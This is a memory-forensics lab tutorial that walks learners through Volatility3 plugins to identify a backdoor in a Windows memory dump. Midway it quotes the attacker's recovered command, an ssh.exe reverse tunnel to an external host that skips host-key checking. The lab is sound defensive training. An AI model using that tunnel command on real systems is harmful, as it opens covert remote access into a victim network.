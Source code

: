 ## Introduction to Memory Analysis Using Volatility

The information contained in a computer's volatile data (or in the RAM of the computer) can be vital to an incident responder.  We call it volatile for a reason, it will change while the computer is operation, but probably most importantly for an investigation, if we power off the computer, we will lose the data that we may need to answer certain questions.

From a host based perspective, one of the more important questions is what process is communicating with what IP address and can we get more information from that process?

Open a command prompt and change directory into the `/data/course_labs/memory-analysis-volatility` directory.  There will be two files, we will start with the 'physmem2.raw' file, this is a raw memory dump of a system that is suspected of having a backdoor running on it. The vr_nestat_enriched.zip file we will use to compare analysis techniques.

There are two versions of Volatility, version 2 and version 3.  Volatility2 is deprecated and runs on Python2.  Volatility3 is the current version and runs on Python3.

Volatility2 has more analysis plugins that Volatility3, but there could be a time in your analysis career that you want version2 for specific capabilities.  Both are installed on the course VM.  Volatility2 is the `vol.py` command and Volatility3 is the `vol` command.

We will use [Volatility3](https://volatility3.readthedocs.io/en/stable/) for this lab.


&nbsp;

<img src="images/memory_analysis_volatility_0.png"  width="60%" height="30%">

&nbsp;

The first module we should run is the 'windows.info' to make sure Volatility can read the image file and that it seems to properly identify the Operating System as Windows 10.

```
vol -f physmem2.raw windows.info
```

&nbsp;

<img src="images/memory_analysis_volatility_1.png"  width="60%" height="30%">

&nbsp;

Since we are investigating a potential backdoor, we should start with looking at processes and network traffic and see if we can determine if anything looks suspicious.  We will use the 'windows.plist' and 'windows.netscan' modules.  

If you have some volatility experience, you may wish to stop the step-by-step lab instructions here and see if you can identify the backdoor process and determine what technique is being used.

First use the 'windows.plist' module to output the running processes from the system we are investigating.  

```
vol -f physmem2.raw windows.pslist
```


&nbsp;

<img src="images/memory_analysis_volatility_2.png"  width="60%" height="30%">

&nbsp;


Next we will run the 'windows.netscan' to investigate network connections.  The output will contain network status for processes, for example if they are listening on a port for incoming communication, or if they have an established connection and to where.

&nbsp;

<img src="images/memory_analysis_volatility_3.png"  width="60%" height="30%">

&nbsp;

One problem you have likely just noticed is the output to the screen (also known as standard output, or Stdout) is less than ideal to read because the output likely overlaps the length and width of the screen.  One trick I like to use is to redirect the standard output to a text file, especially if the command takes more than a few seconds to run or if there are thousands of lines of output.

Use the up arrow key to re-rerun the last two volatility commands to match the following:

```
vol -f physmem2.raw windows.netscan > windows_netscan.txt
vol -f physmem2.raw windows.pslist > windows_pslist.txt

```

One trick to make text files that have more columns of data than will fit in your terminal window is to use the '-S' switch with the less command.  This will allow you to use the right and left arrows to scroll across the data.  View each of these files and see if you can determine what process seems to be doing something suspicious.



```
less -S windows_netscan.txt
less -S windows_pslist.txt
```

It appears that the powerhshell.exe process has launched the ssh.exe process.  In most circumstances in a Windows environment this would make me suspicious unless the user was a systems administrator.

&nbsp;

<img src="images/memory_analysis_volatility_4.png"  width="60%" height="30%">

&nbsp;

In the network output, we see that ssh.exe is connected to an external IP address.  This would add more suspicion to the ssh.exe process.

&nbsp;

<img src="images/memory_analysis_volatility_5.png"  width="60%" height="30%">

&nbsp;

There is another network connection associated with ssh.exe that looks like it is over TCP 4444.  This port is not commonly associated with SSH, and is also suspicious.

&nbsp;

<img src="images/memory_analysis_volatility_6.png"  width="60%" height="30%">

&nbsp;

How can we find more information about what happened with this memory dump?  One trick that I have used in the past is to dump out the process to file using the 'windows.memmap.Memmap' module and then use the strings utility in Linux to find interesting text.  This can be tedious, and in this case, if this is the [built in ssh.exe executable in Windows](https://learn.microsoft.com/en-us/windows-server/administration/openssh/openssh_overview), then there may not be much useful in there that we could not obtain in an easier way.

Since it appears that powershell.exe was the parent process for ssh.exe, we should use the windows.cmdline.CmdLine' module.  This will list command line activity.


```
vol -f physmem2.raw windows.cmdline.CmdLine
```

&nbsp;

<img src="images/memory_analysis_volatility_7.png"  width="60%" height="30%">

&nbsp;

We see that the command executed was `ssh.exe sshtunnel@remote.digitalpirateradio.com -f -N -R 50000 -p 8415 -o StrictHostKeyChecking=no` and looks like it was the built in SSH executable.

This technique was part of an attack that came from a real world incident.  This allows the attacker on the remote system to execute commands into the compromised network.  We can assume that the connection to the 192.168.1.55 system is lateral movement and would expand our investigation to include that system.

For more information on what the switches of the command do check out this blog post https://www.blackhillsinfosec.com/ssh-dont-tell-them-i-am-not-https/

#### Additional analysis options

If you still have time left in the lab take a look at the `vr_netstat_enriched.zip` file in the same directory.  This represents output from a Velociraptor hunt using the Windows Netstat Enriched module.  See if you can find the suspicious process in less time than it would take using the same techniques with TADViewer from the previous lab.

This will likely take less time on a per host basis and illustrates the 'Cast a Wide Net' versus the in-depth analysis approach with Volatility and a single host.